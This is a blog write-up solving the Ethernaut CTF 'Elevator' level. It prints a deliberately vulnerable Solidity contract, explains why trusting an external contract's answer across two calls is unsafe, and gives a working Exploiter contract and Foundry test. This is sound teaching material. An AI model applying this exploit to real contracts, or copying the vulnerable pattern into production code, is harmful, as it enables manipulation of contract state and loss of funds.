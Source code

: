 ```yaml
---
title: 'Ethernaut Challenge #11 Solution — Elevator'
excerpt: This is Part 11 of the "Let’s play OpenZeppelin Ethernaut CTF" series, where I will explain how to solve each challenge.</br></br>The goal of this challenge is to be able to reach the top floor of the building.
coverImage:
  url: '/assets/blog/ethernaut/elevator.svg'
  credit:
    name: OpenZeppelin
    url: https://ethernaut.openzeppelin.com/
date: '2022-07-21T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernaut/elevator.svg'
---
```


This is Part 11 of the ["Let's play OpenZeppelin Ethernaut CTF"](https://stermi.xyz/blog/lets-play-openzeppelin-ethernaut) series, where I will explain how to solve each challenge.

> [The Ethernaut](https://ethernaut.openzeppelin.com/) is a Web3/Solidity based wargame created by [OpenZeppelin](https://openzeppelin.com/).
> Each level is a smart contract that needs to be 'hacked'. The game acts both as a tool for those interested in learning ethereum, and as a way to catalogue historical hacks in levels. Levels can be infinite and the game does not require to be played in any particular order.

# Challenge #11: Elevator

> This elevator won't let you reach the top of your building. Right?
> Things that might help:
>
> - Sometimes solidity is not good at keeping promises.
> - This `Elevator` expects to be used from a `Building`.
>
> Level author: [Martin Triay](https://github.com/martriay)

The goal of this challenge is to be able to reach the top floor of the building.

## Study the contracts

The code of the Challenge's Level is pretty simple, let's dump it here and study it

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}

```

The `Elevator` is a pretty simple contract.

It has two state variables:

- `bool public top` a boolean variable that will state if the elevator has arrived to the top of the building. It is initialized as `false` by default
- `uint256 public floor` an integer variable that will state to which floor the elevator has arrived. It is initialized to `0` by default

Then we have the `goTo` function that takes a `uint256 _floor`. This function is expected to be called by a smart contract that implements the `Building` interface.

Inside the function, it checks the `Building.isLastFloor` result that **should** state whether a floor is the top of the building or not.

If the floor **is not** the top of the building, the function update the `floor` state variable and update also the `top` state variable that should be `false` given that we entered the `if` state only because the same `building.isLastFloor` function has returned `false` just two lines of code above, **right**?

This challenge teaches two important lessons:

- **never, ever, trust an external actor as an assumption**
- **better safe than sorry**

The `msg.sender` (the Building contract) is an external actor. We only know that it must implement the `Building` interface, so it must:

- have a function called `isLastFloor`
- it takes a `uint256` input parameter
- it will return a `bool`

But in reality, apart from this information, we don't know what's inside that contract. How can we be certain that it will **really** return `true` **only** if the floor is the real top of the building?

My two cents suggestions would be:

- Only integrate with external contract that have a verified source code and that you can read what they do and with which other external service they will integrate
- If the external service is upgradable, you must really trust that the owner of the service will not act maliciously in the future
- Even if you trust the external actor, put some safeguards in the contract like some kind of pausable and emergency logic

## Solution code

The solution code is pretty simple, what we must do is to trick the `Elevator` to think that we have not reached the top of the building when it first calls the `isLastFloor` function and then return `true` (we have reached the top) when it calls it the second time.

Here's the code of the `Building` contract

```solidity
contract Exploiter is Building {
    Elevator private victim;
    address private owner;
    bool private firstCall;

    constructor(Elevator _victim) public {
        owner = msg.sender;
        victim = _victim;
        firstCall = true;
    }

    function goTo(uint256 floor) public {
        victim.goTo(floor);
    }

    function isLastFloor(uint256) external override returns (bool) {
        // if the Elevator call us the first time return `false` to trick him
        // but return `true` if the second time to exploit it
        if (firstCall) {
            firstCall = false;
            return false;
        } else {
            return true;
        }
    }
}
```

And here's the code of the test itself

```solidity
function exploitLevel() internal override {
    vm.startPrank(player, player);

    // deploy the contract
    Exploiter exploiter = new Exploiter(level);

    // trigger the exploit
    exploiter.goTo(0);

    // assert that the elevator has reached the top of the building
    assertEq(level.top(), true);

    vm.stopPrank();
}
```

You can read the full solution of the challenge opening [Elevator.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/Elevator.t.sol)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
